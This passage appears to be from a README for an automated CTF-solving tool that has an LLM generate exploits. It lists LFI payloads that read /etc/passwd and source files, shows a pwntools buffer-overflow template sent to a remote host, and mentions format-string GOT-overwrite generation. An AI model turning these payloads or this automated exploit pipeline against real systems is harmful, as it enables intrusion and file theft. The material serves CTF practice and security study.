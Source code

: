 #### 3. LFI/RFI (Local/Remote File Inclusion)
```python
# 일반적인 LFI 페이로드
payloads = [
    "../../../etc/passwd",
    "....//....//....//etc/passwd",
    "php://filter/convert.base64-encode/resource=index.php"
]

# 자동 테스트 및 플래그 추출
```

---

## 💣 Pwn Solver

### 자동화 Exploit 생성

#### 1. Buffer Overflow
```python
# 1단계: 바이너리 분석
checksec_result = await tool_executor.run_checksec(binary_path)
# → NX: disabled, PIE: disabled, Stack Canary: disabled

# 2단계: LLM에게 exploit 전략 요청
strategy = await llm_reasoner.generate_exploit(
    analysis=CTFAnalysis(
        category='pwn',
        vulnerability_type='Buffer Overflow',
        ...
    ),
    context=checksec_result.output
)

# 3단계: pwntools 코드 자동 생성
exploit_code = """
from pwn import *

p = remote('target.com', 1337)
payload = b'A' * 64  # offset
payload += p64(0xdeadbeef)  # return address
p.sendline(payload)
p.interactive()
"""

# 4단계: 실행 및 플래그 캡처
```

#### 2. Format String
```python
# 자동 offset 탐지
offset = find_format_offset(binary_path)

# GOT overwrite exploit 생성
exploit = generate_format_string_exploit(offset, target_address)
```
